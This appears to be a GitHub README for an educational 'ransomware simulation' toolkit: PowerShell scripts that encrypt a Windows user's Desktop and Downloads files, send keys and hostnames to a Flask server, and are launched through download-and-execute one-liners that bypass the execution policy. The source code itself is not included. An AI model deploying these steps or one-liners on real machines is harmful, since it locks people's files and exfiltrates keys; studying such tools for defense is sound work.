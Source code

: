 # **Ransomware Simulation Scripts**

**⚠️ IMPORTANT NOTICE: THIS PROJECT IS PURELY FOR EDUCATIONAL PURPOSES ONLY. IT SIMULATES A RANSOMWARE-LIKE ENCRYPTION AND DECRYPTION PROCESS TO HELP USERS UNDERSTAND ENCRYPTION, DECRYPTION, AND SECURE COMMUNICATION. DO NOT USE THIS PROJECT MALICIOUSLY OR WITHOUT PROPER AUTHORIZATION. THE AUTHORS ARE NOT RESPONSIBLE FOR ANY MISUSE OF THIS SOFTWARE. ⚠️**


> this only works on Windows Machine. traffic is unencrypted.
---

## **Overview**

The project consists of the following components:

1. **`encryptor.ps1`**:
   - Encrypts files in specified folders (e.g., Desktop, Downloads).
   - Renames encrypted files with a `.secured` extension.
   - Sends the encryption key and system hostname to the server.

2. **`decryptor.ps1`**:
   - Decrypts files with the `.secured` extension.
   - Restores the original file names.

3. **`server.py`**:
   - Acts as a central server to store encryption keys and hostnames.
   - Serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.
   - Displays a webpage with one-liner commands for encryption and decryption.

4. **`codegen.py`**:
   - Dynamically generates the `encryptor.ps1` and `decryptor.ps1` scripts.
   - Embeds the server's IP address into the scripts.

---

## **Prerequisites**

### **1. Python Environment**
- Install Python 3.6 or higher.
- Install required Python libraries:
  ```bash
  pip install flask
  ```

### **2. PowerShell**
- Ensure PowerShell is installed on the target machine.
- Run PowerShell as an Administrator to avoid permission issues.

### **3. Network Setup**
- Ensure the server machine and client machines are on the same network.
- Allow communication on the server's port (default: `8000`).

---

## **Setup Instructions**

### **Step 1: Generate Scripts**
Run the `codegen.py` script to generate the `encryptor.ps1` and `decryptor.ps1` scripts:
```bash
python codegen.py
```
- By default, the script detects the server's IP address automatically.
- Alternatively, specify the server's IP manually:
  ```bash
  python codegen.py --ip <SERVER_IP>
  ```

### **Step 2: Start the Server**
Run the `server.py` script to start the server:
```bash
python server.py
```
- The server will display its IP address and port (e.g., `http://192.168.0.104:8000`).
- Access the server's IP in a browser to view the webpage with one-liner commands.

### **Step 3: Deploy Scripts**
- Place the generated `encryptor.ps1` and `decryptor.ps1` scripts in the parent directory of the server script.
- Ensure the server can serve these files when accessed via HTTP.

---

## **Usage Instructions**

### **1. Encryption**
Run the `encryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\encryptor.ps1
```
- The script will:
  - Encrypt files in the specified folders (e.g., Desktop, Downloads).
  - Rename encrypted files with a `.secured` extension.
  - Send the encryption key and system hostname to the server.

### **2. Decryption**
Run the `decryptor.ps1` script on the target machine:
```powershell
powershell -ExecutionPolicy Bypass -File .\decryptor.ps1
```
- The script will:
  - Decrypt files with the `.secured` extension.
  - Restore the original file names.

### **3. One-Liner Commands**
Access the server's IP in a browser (e.g., `http://192.168.0.104:8000`) to view one-liner commands for encryption and decryption.

#### Example One-Liner for Encryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/encryptor.ps1 -OutFile encryptor.ps1; .\encryptor.ps1"
```

#### Example One-Liner for Decryption:
```powershell
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://192.168.0.104:8000/script/decryptor.ps1 -OutFile decryptor.ps1; .\decryptor.ps1"
```

---

## **Server Features**

### **1. Webpage**
When you access the server's IP in a browser, you will see:
- One-liner commands for encryption and decryption.
- Statistics on the number of secured systems.

### **2. Key Storage**
The server stores encryption keys and hostnames in a file named `encryption_keys.txt`.

### **3. File Serving**
The server serves the `encryptor.ps1` and `decryptor.ps1` scripts via HTTP.

---

## **Troubleshooting**

### **1. Script Fails to Run**
- Ensure PowerShell is running with elevated privileges (as Administrator).
- Check the `encryption_log.txt` file for detailed error messages.

### **2. Files Not Encrypted**
- Verify that the files are accessible and not locked by another process.
- Ensure the script skips already encrypted files (`.secured` extension).

### **3. Server Not Accessible**
- Check the server's IP address and port.
- Ensure the firewall allows incoming connections on port `8000`.

### **4. Missing Dependencies**
- Install any missing Python libraries using `pip install <library_name>`.

---

## **Disclaimer**

This project is intended for educational purposes only. It simulates a ransomware-like behavior to help users understand encryption, decryption, and secure communication. Do not use this project maliciously or without proper authorization. The authors are not responsible for any misuse of this software.

---

## **Contact**

For questions or feedback, please contact:
- X :[ x/anir0y](https://x.com/anir0y)
- GitHub: [github/anir0y](https://github.com/anir0y/)
